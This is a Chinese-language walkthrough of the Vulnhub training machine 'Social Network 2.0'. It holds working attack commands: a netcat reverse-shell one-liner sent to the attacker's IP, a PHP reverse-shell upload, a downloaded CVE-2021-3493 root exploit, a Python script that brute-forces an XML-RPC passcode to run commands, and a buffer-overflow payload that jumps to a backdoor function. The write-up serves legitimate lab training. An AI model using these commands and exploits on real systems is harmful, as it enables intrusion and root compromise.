

# Vulnhub-BOREDHACKERBLOG SOCIAL NETWORK2靶场实践 - 先知社区

Vulnhub-BOREDHACKERBLOG SOCIAL NETWORK2靶场实践

- - -

# Vulnhub-BOREDHACKERBLOG SOCIAL NETWORK2实践

## 描述

You've been assigned to test another social networking webapp.  
You have been given access to a dev server.  
The current devs use many custom tools and scripts that you'll have to review and attack.

**Difficulty: Hard**

Tasks involved:

-   port scanning
-   webapp attacks
-   code review
-   custom bruteforcing
-   reverse engineering
-   buffer overflow
-   exploitation

## 环境

靶机下载：[BOREDHACKERBLOG: SOCIAL NETWORK 2.0](https://www.vulnhub.com/entry/boredhackerblog-social-network-20,455/)

kali IP：192.168.56.103

## 靶机发现

```plain
arp-scan -I eth0 -l
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107103451-3a2ce620-7d16-1.png)

目标靶机的IP地址为192.168.56.104

## 信息收集

```plain
nmap -p- -sT 192.168.56.104
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107103650-8173ba86-7d16-1.png)

开放80和8000端口

## 漏洞发现与利用

访问80端口，页面存在登录和注册两个入口，可以先注册一个账户，然后登录查看里面的详细功能。

登录后发现是一个类似发表帖子的网站，浏览并收集相关信息：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107103758-a9d8039c-7d16-1.png)

发现admin发布的一个帖子中显示存在一个脚本monitor.py一直在服务器上运行

另外发现此url的id参数存在SQL注入，可获取相关的信息，但是经过测试发现，获得的信息无法进行后面的渗透流程

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107103819-b67b6f26-7d16-1.png)

尝试发布一则帖子，能够正常显示

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107103843-c4c58aa8-7d16-1.png)

只有发布帖子之后，在个人主页界面，才能够上传图片，修改个人信息。此处存在文件上传漏洞，并且可以直接上传php文件，这里选择上传一个php反弹shell的文件：[php-reverse-shell/php-reverse-shell.php at master · pentestmonkey/php-reverse-shell · GitHub](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)，修改文件里面的IP和端口，kali开启端口监听

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107103933-e271d624-7d16-1.png)

上传成功后，kali成功拿到shell

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107103956-f007e9c2-7d16-1.png)

这里还可以上传一个php一句话木马，使用蚁剑进行连接，由于蚁剑的终端不稳定，故可以在终端上执行反弹shell

```plain
"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.56.103 4444 >/tmp/f"
```

## 提权

### CVE-2021-3493提权

这里可以使用[CVE-2021-3493](https://github.com/briskets/CVE-2021-3493)进行提权

```plain
cd /tmp
wget http://192.168.56.105:8000/cve-2021-3493.c
gcc cve-2021-3493.c -o exp
chmod 777 exp
./exp
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107104016-fc3b9860-7d16-1.png)

成功获取root权限的shell

### 利用程序漏洞提权

在目录中已经发现monitor.py，并且目录中含有peda文件夹，这是一个gdb调试插件

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107104034-06ac33f4-7d17-1.png)

monitor.py内容：

```plain
#my remote server management API
import SimpleXMLRPCServer
import subprocess
import random

debugging_pass = random.randint(1000,9999)

def runcmd(cmd):
    results = subprocess.Popen(cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
    output = results.stdout.read() + results.stderr.read()
    return output

def cpu():
    return runcmd("cat /proc/cpuinfo")

def mem():
    return runcmd("free -m")

def disk():
    return runcmd("df -h")

def net():
    return runcmd("ip a")

def secure_cmd(cmd,passcode):
    if passcode==debugging_pass:
         return runcmd(cmd)
    else:
        return "Wrong passcode."

server = SimpleXMLRPCServer.SimpleXMLRPCServer(("0.0.0.0", 8000))
server.register_function(cpu)
server.register_function(mem)
server.register_function(disk)
server.register_function(net)
server.register_function(secure_cmd)

server.serve_forever()
```

看到代码一脸懵逼，其中代码中可以看出靶机开放了8000端口，这在端口扫描中也可以得知，访问一下8000端口：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107104056-13f5efe6-7d17-1.png)

这里显示不支持GET请求方法，就使用bp抓包修改方法为POST

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107104115-1f65a6d2-7d17-1.png)

没有发现任何可用信息，并且响应的数据包也看不懂

重新回到代码，查看关于SimpleXMLRPCServer的相关介绍：[xmlrpc.client — XML-RPC client access — Python 3.10.7 documentation](https://docs.python.org/3/library/xmlrpc.client.html)，`SimpleXMLRPCServer`模块为使用Python编写的XML-RPC服务器提供了一个基本的服务器框架，直接查看链接，里面有清晰的示例，照着示例编写客户端的测试代码：

测试代码1：

```plain
import xmlrpc.client

proxy = xmlrpc.client.ServerProxy("http://192.168.56.104:8000")
print(proxy.net())
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107104134-2abd16b4-7d17-1.png)

成功将代码中的net函数所执行的结果返回到本地，net函数功能是将靶机的ip信息返回。

查看代码中存在一个函数`secure_cmd`，包含两个参数，第一个参数为命令，第二个参数相当于密码，在代码`debugging_pass = random.randint(1000,9999)`随机设置了一个密码，当我们传递的参数等于这个密码时，传入的命令就能够得到执行，这里可以爆破这个密码：

测试代码2：

```plain
import xmlrpc.client

with xmlrpc.client.ServerProxy("http://192.168.56.104:8000") as proxy:
    for i in range(1000,9999):
        message = proxy.secure_cmd("whoami",i)
        if message != "Wrong passcode.":
            print("cmd result:",message)
            print("Right passcode is:",i)
            break
        else:
            continue
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107104155-370cd12a-7d17-1.png)

既然得到了密码，就可以在命令这个参数中传递一个反弹shell，加上爆破的密码，就能够成功得到shell

测试代码3：

```plain
import xmlrpc.client

with xmlrpc.client.ServerProxy("http://192.168.56.104:8000") as proxy:
    proxy.secure_cmd("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.56.103 4444 >/tmp/f",6238)
```

kali开启对4444端口的监听，获得shell，用户为socnet

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107104213-41ddaae8-7d17-1.png)

目录下存在一个拥有root权限执行的程序add\_record

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107104231-4c691966-7d17-1.png)

执行该程序，存在5个输入，开启gdb调试，依次测试每个输入的位置是否存在溢出

对第一个输入进行测试，结果如下，程序运行终止：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107104358-80233d04-7d17-1.png)

这表明不存在栈溢出，后面3处的输入都是一样，在测试第五个输入的时候，出现如下结果：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107104417-8b6f0314-7d17-1.png)

其中EIP表示的是下一条需要执行的指令存放的位置，而现在被输入过长的A字符串占满，程序找不到正确的指令内存地址，从而出现程序错误；这里表明我们的输入可以导致栈溢出，这样我们的输入可以覆盖EIP的值，只要构造合理的输入，就能够让程序执行到我们想要的位置。既然存在栈溢出，就需要知道从输入的首个字符到EIP之间需要填充多少个字符。可以借助gdb-peda中的pattern：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107104434-957d88e4-7d17-1.png)

EIP被覆盖位AHAA，现在需要得到AHAA在我们一开始生成的字符串中的位置

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107104451-9fb82e0e-7d17-1.png)

通过pattern search可以得到EIP的位置距离输入首位置的距离是62，得到了距离之后，需要寻找一个可以执行shell的函数

查看main函数的汇编代码：

```plain
gdb-peda$ disas main
Dump of assembler code for function main:
   0x080486d8 <+0>: lea    ecx,[esp+0x4]
   0x080486dc <+4>: and    esp,0xfffffff0
   0x080486df <+7>: push   DWORD PTR [ecx-0x4]
   0x080486e2 <+10>:    push   ebp
   0x080486e3 <+11>:    mov    ebp,esp
   0x080486e5 <+13>:    push   edi
   0x080486e6 <+14>:    push   esi
   0x080486e7 <+15>:    push   ebx
   0x080486e8 <+16>:    push   ecx
   0x080486e9 <+17>:    sub    esp,0xa8
   0x080486ef <+23>:    call   0x80485b0 <__x86.get_pc_thunk.bx>
   0x080486f4 <+28>:    add    ebx,0x1654
   0x080486fa <+34>:    mov    DWORD PTR [ebp-0xac],0x414e
   0x08048704 <+44>:    lea    edx,[ebp-0xa8]
   0x0804870a <+50>:    mov    eax,0x0
   0x0804870f <+55>:    mov    ecx,0x18
   0x08048714 <+60>:    mov    edi,edx
   0x08048716 <+62>:    rep stos DWORD PTR es:[edi],eax
   0x08048718 <+64>:    sub    esp,0x8
   0x0804871b <+67>:    lea    eax,[ebx-0x13ee]
   0x08048721 <+73>:    push   eax
   0x08048722 <+74>:    lea    eax,[ebx-0x13ec]
   0x08048728 <+80>:    push   eax
   0x08048729 <+81>:    call   0x8048520 <fopen@plt>
   0x0804872e <+86>:    add    esp,0x10
   0x08048731 <+89>:    mov    DWORD PTR [ebp-0x1c],eax
   0x08048734 <+92>:    sub    esp,0xc
   0x08048737 <+95>:    lea    eax,[ebx-0x13d4]
   0x0804873d <+101>:   push   eax
   0x0804873e <+102>:   call   0x80484e0 <puts@plt>
   0x08048743 <+107>:   add    esp,0x10
   0x08048746 <+110>:   sub    esp,0xc
   0x08048749 <+113>:   lea    eax,[ebx-0x137c]
   0x0804874f <+119>:   push   eax
   0x08048750 <+120>:   call   0x8048480 <printf@plt>
   0x08048755 <+125>:   add    esp,0x10
   0x08048758 <+128>:   mov    eax,DWORD PTR [ebx-0x4]
   0x0804875e <+134>:   mov    eax,DWORD PTR [eax]
   0x08048760 <+136>:   sub    esp,0x4
   0x08048763 <+139>:   push   eax
   0x08048764 <+140>:   push   0x19
   0x08048766 <+142>:   lea    eax,[ebp-0x39]
   0x08048769 <+145>:   push   eax
   0x0804876a <+146>:   call   0x80484b0 <fgets@plt>
   0x0804876f <+151>:   add    esp,0x10
   0x08048772 <+154>:   sub    esp,0xc
   0x08048775 <+157>:   lea    eax,[ebx-0x1366]
   0x0804877b <+163>:   push   eax
   0x0804877c <+164>:   call   0x8048480 <printf@plt>
   0x08048781 <+169>:   add    esp,0x10
   0x08048784 <+172>:   sub    esp,0x8
   0x08048787 <+175>:   lea    eax,[ebp-0x40]
   0x0804878a <+178>:   push   eax
   0x0804878b <+179>:   lea    eax,[ebx-0x1352]
   0x08048791 <+185>:   push   eax
   0x08048792 <+186>:   call   0x8048540 <__isoc99_scanf@plt>
   0x08048797 <+191>:   add    esp,0x10
   0x0804879a <+194>:   sub    esp,0xc
   0x0804879d <+197>:   lea    eax,[ebx-0x134f]
   0x080487a3 <+203>:   push   eax
   0x080487a4 <+204>:   call   0x8048480 <printf@plt>
   0x080487a9 <+209>:   add    esp,0x10
   0x080487ac <+212>:   sub    esp,0x8
   0x080487af <+215>:   lea    eax,[ebp-0x44]
   0x080487b2 <+218>:   push   eax
   0x080487b3 <+219>:   lea    eax,[ebx-0x1352]
   0x080487b9 <+225>:   push   eax
   0x080487ba <+226>:   call   0x8048540 <__isoc99_scanf@plt>
   0x080487bf <+231>:   add    esp,0x10
   0x080487c2 <+234>:   sub    esp,0xc
   0x080487c5 <+237>:   lea    eax,[ebx-0x1340]
   0x080487cb <+243>:   push   eax
   0x080487cc <+244>:   call   0x8048480 <printf@plt>
   0x080487d1 <+249>:   add    esp,0x10
   0x080487d4 <+252>:   sub    esp,0x8
   0x080487d7 <+255>:   lea    eax,[ebp-0x48]
   0x080487da <+258>:   push   eax
   0x080487db <+259>:   lea    eax,[ebx-0x1352]
   0x080487e1 <+265>:   push   eax
   0x080487e2 <+266>:   call   0x8048540 <__isoc99_scanf@plt>
   0x080487e7 <+271>:   add    esp,0x10
   0x080487ea <+274>:   call   0x80484a0 <getchar@plt>
   0x080487ef <+279>:   mov    DWORD PTR [ebp-0x20],eax
   0x080487f2 <+282>:   cmp    DWORD PTR [ebp-0x20],0xa
   0x080487f6 <+286>:   je     0x80487fe <main+294>
   0x080487f8 <+288>:   cmp    DWORD PTR [ebp-0x20],0xffffffff
   0x080487fc <+292>:   jne    0x80487ea <main+274>
   0x080487fe <+294>:   mov    eax,DWORD PTR [ebp-0x48]
   0x08048801 <+297>:   cmp    eax,0x1
   0x08048804 <+300>:   jne    0x804883c <main+356>
   0x08048806 <+302>:   sub    esp,0xc
   0x08048809 <+305>:   lea    eax,[ebx-0x1317]
   0x0804880f <+311>:   push   eax
   0x08048810 <+312>:   call   0x8048480 <printf@plt>
   0x08048815 <+317>:   add    esp,0x10
   0x08048818 <+320>:   sub    esp,0xc
   0x0804881b <+323>:   lea    eax,[ebp-0xac]
   0x08048821 <+329>:   push   eax
   0x08048822 <+330>:   call   0x8048490 <gets@plt>
   0x08048827 <+335>:   add    esp,0x10
   0x0804882a <+338>:   sub    esp,0xc
   0x0804882d <+341>:   lea    eax,[ebp-0xac]
   0x08048833 <+347>:   push   eax
   0x08048834 <+348>:   call   0x80486ad <vuln>
   0x08048839 <+353>:   add    esp,0x10
   0x0804883c <+356>:   sub    esp,0xc
   0x0804883f <+359>:   lea    eax,[ebx-0x130d]
   0x08048845 <+365>:   push   eax
   0x08048846 <+366>:   call   0x80484e0 <puts@plt>
   0x0804884b <+371>:   add    esp,0x10
   0x0804884e <+374>:   mov    ecx,DWORD PTR [ebp-0x48]
   0x08048851 <+377>:   mov    edx,DWORD PTR [ebp-0x44]
   0x08048854 <+380>:   mov    eax,DWORD PTR [ebp-0x40]
   0x08048857 <+383>:   sub    esp,0x8
   0x0804885a <+386>:   lea    esi,[ebp-0xac]
   0x08048860 <+392>:   push   esi
   0x08048861 <+393>:   push   ecx
   0x08048862 <+394>:   push   edx
   0x08048863 <+395>:   push   eax
   0x08048864 <+396>:   lea    eax,[ebp-0x39]
   0x08048867 <+399>:   push   eax
   0x08048868 <+400>:   lea    eax,[ebx-0x12ec]
   0x0804886e <+406>:   push   eax
   0x0804886f <+407>:   call   0x8048480 <printf@plt>
   0x08048874 <+412>:   add    esp,0x20
   0x08048877 <+415>:   mov    ecx,DWORD PTR [ebp-0x48]
   0x0804887a <+418>:   mov    edx,DWORD PTR [ebp-0x44]
   0x0804887d <+421>:   mov    eax,DWORD PTR [ebp-0x40]
   0x08048880 <+424>:   sub    esp,0x4
   0x08048883 <+427>:   lea    esi,[ebp-0xac]
   0x08048889 <+433>:   push   esi
   0x0804888a <+434>:   push   ecx
   0x0804888b <+435>:   push   edx
   0x0804888c <+436>:   push   eax
   0x0804888d <+437>:   lea    eax,[ebp-0x39]
   0x08048890 <+440>:   push   eax
   0x08048891 <+441>:   lea    eax,[ebx-0x12ec]
   0x08048897 <+447>:   push   eax
   0x08048898 <+448>:   push   DWORD PTR [ebp-0x1c]
   0x0804889b <+451>:   call   0x8048510 <fprintf@plt>
   0x080488a0 <+456>:   add    esp,0x20
   0x080488a3 <+459>:   sub    esp,0xc
   0x080488a6 <+462>:   push   DWORD PTR [ebp-0x1c]
   0x080488a9 <+465>:   call   0x80484c0 <fclose@plt>
   0x080488ae <+470>:   add    esp,0x10
   0x080488b1 <+473>:   mov    eax,0x0
   0x080488b6 <+478>:   lea    esp,[ebp-0x10]
   0x080488b9 <+481>:   pop    ecx
   0x080488ba <+482>:   pop    ebx
   0x080488bb <+483>:   pop    esi
   0x080488bc <+484>:   pop    edi
   0x080488bd <+485>:   pop    ebp
   0x080488be <+486>:   lea    esp,[ecx-0x4]
   0x080488c1 <+489>:   ret    
End of assembler dump.
```

在此处发现调用了一个可以函数vuln，从字面意思可以发现这应该是漏洞存在的地方

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107104513-ad0d4abc-7d17-1.png)

查看vuln函数的汇编代码：

```plain
gdb-peda$ disas vuln
Dump of assembler code for function vuln:
   0x080486ad <+0>: push   ebp
   0x080486ae <+1>: mov    ebp,esp
   0x080486b0 <+3>: push   ebx
   0x080486b1 <+4>: sub    esp,0x44
   0x080486b4 <+7>: call   0x80488c2 <__x86.get_pc_thunk.ax>
   0x080486b9 <+12>:    add    eax,0x168f
   0x080486be <+17>:    sub    esp,0x8
   0x080486c1 <+20>:    push   DWORD PTR [ebp+0x8]
   0x080486c4 <+23>:    lea    edx,[ebp-0x3a]
   0x080486c7 <+26>:    push   edx
   0x080486c8 <+27>:    mov    ebx,eax
   0x080486ca <+29>:    call   0x80484d0 <strcpy@plt>
   0x080486cf <+34>:    add    esp,0x10
   0x080486d2 <+37>:    nop
   0x080486d3 <+38>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x080486d6 <+41>:    leave  
   0x080486d7 <+42>:    ret    
End of assembler dump.
```

这个函数调用了strcpy函数来对字符串进行复制，这就是导致栈溢出存在。既然证实了程序在第五处输入存在栈溢出漏洞，那么需要寻找一个能够获取shell的后门函数或者通过某种栈溢出方式来获取shell，查看程序中已有的函数：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107104530-b7190442-7d17-1.png)

发现了一个可疑函数backdoor,查看其汇编代码：

```plain
gdb-peda$ disas backdoor
Dump of assembler code for function backdoor:
   0x08048676 <+0>: push   ebp
   0x08048677 <+1>: mov    ebp,esp
   0x08048679 <+3>: push   ebx
   0x0804867a <+4>: sub    esp,0x4
   0x0804867d <+7>: call   0x80485b0 <__x86.get_pc_thunk.bx>
   0x08048682 <+12>:    add    ebx,0x16c6
   0x08048688 <+18>:    sub    esp,0xc
   0x0804868b <+21>:    push   0x0
   0x0804868d <+23>:    call   0x8048530 <setuid@plt>
   0x08048692 <+28>:    add    esp,0x10
   0x08048695 <+31>:    sub    esp,0xc
   0x08048698 <+34>:    lea    eax,[ebx-0x13f8]
   0x0804869e <+40>:    push   eax
   0x0804869f <+41>:    call   0x80484f0 <system@plt>
   0x080486a4 <+46>:    add    esp,0x10
   0x080486a7 <+49>:    nop
   0x080486a8 <+50>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x080486ab <+53>:    leave  
   0x080486ac <+54>:    ret    
End of assembler dump.
```

backdoor调用了setuid和system函数，也许能够获取到root权限的shell，那么目标就变成了将backdoor的函数地址0x08048676溢出到EIP上。

按照要求编写输入字符串：

```plain
python -c "import struct;print('1\n1\n1\n1\n'+'A'*62+struct.pack('I',0x08048676))" > payload
cat payload - | ./add_record
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231107104550-c3361454-7d17-1.png)

将得到的payload作为输入执行add\_record程序后成功获取root权限

## 总结

这个vulnhub靶机环境比较综合，涉及Web及二进制两个方面，在专注一个方向的同时，需要能够对另一个方向有基本的认识与了解。在对目标进行测试时，需要抓住一切可能利用的二进制程序代码。
